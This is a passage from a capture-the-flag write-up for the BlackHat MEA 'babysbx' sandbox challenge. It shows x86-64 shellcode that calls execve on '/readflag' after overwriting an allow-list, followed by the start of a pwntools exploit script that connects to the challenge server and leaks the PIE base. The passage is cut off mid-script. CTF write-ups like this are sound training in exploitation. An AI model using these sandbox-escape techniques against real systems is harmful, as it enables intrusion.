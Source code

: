 Checking again to make sure it worked, we see that we've successfully overwritten `ALLOWED_EXE` as intended :)

![overwrite_success](/assets/blackhatmea/zerodaytea/overwrite_success.webp)
## Getting the Flag

Finally, all that's left to do is execute our execve call with the now allowed `"/readflag"` filename argument and get the flag.

```python
win = """
mov rdi, rbx     <-
add rdi, 0x50    <- setting filename to address of "/readflag"
mov rsi, 0
mov rdx, 0
mov rax, 0x3b
syscall
"""

shellcode += asm(win)
```

## Final Exploit

Putting it all together we get our final shellcode and working exploit.
```python
from pwn import *

elf = ELF("./babysbx")
context.binary = elf

def conn():
    if args.GDB:
        script = """
        b *(main+201)
        c
        """
        p = gdb.debug(elf.path, gdbscript=script)
    elif args.REMOTE:
        p = remote("blackhat.flagyard.com", 32428)
    else:
        p = process(elf.path)
    return p

def run():
    setup_stack = """
    movabs rbp, 0xc0def00
    sub rbp, 0x38
    mov rsp, rbp
    """
    shellcode = asm(setup_stack)

    leak_pie = """
    mov rdi, 0
    mov rax, 0xc
    syscall
    
    mov rdi, rax
    sub rdi, 0x20000
    sub rdi, 0x400
    
    loop:
    sub rdi, 0x1000
    mov rax, 0x23
```